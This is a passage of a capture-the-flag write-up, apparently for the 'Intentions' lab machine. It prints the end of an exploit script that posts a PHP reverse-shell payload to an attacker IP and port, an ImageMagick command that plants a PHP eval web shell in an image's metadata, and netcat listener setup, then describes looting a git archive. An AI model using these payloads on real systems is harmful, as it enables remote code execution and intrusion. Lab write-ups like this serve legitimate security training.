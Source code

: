 ~~~
        for response in responses:
            print(await response.text())

loop = asyncio.get_event_loop()
loop.run_until_complete(send_requests())
revshell = {
    "a": """$sock=fsockopen("10.10.14.19",9001);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);"""
}
requests.post(url2, data=revshell)
~~~

Before running that we have to start ```python server in port 80```
and the same directory must have a exploit image ..!!

for that ,
~~~
convert xc:red -set 'Copyright' '<?php @eval(@$_REQUEST["a"]); ?>' positive.png
~~~

Now start the server :

~~~
sudo python3 -m http.server 80
~~~

At the same time , 

Dont forget to setup listener,

~~~
nc -lvnp 9001
~~~

Now run the python file :

U can see the logs..!!

![[Pasted image 20230705150048.png]]

![[got shell.jpg]]

Yes got shell.!!!

In that shell i dont found anything special , i roamed everywhere there i see ``git.tar
``(/var/www/html/intentions/.git)

I moved to my Machine by starting python server there and i downloaded.!!

There i found checked git logs and commits..!!

With ```git log``` we see this commit:

commit f7c903a54cacc4b8f27e00dbf5b0eae4c16c3bb4
Author: greg <greg@intentions.htb>
Date:   Thu Jan 26 09:21:52 2023 +0100

    Test cases did not work on steve's local database, switching to user factory per his advice
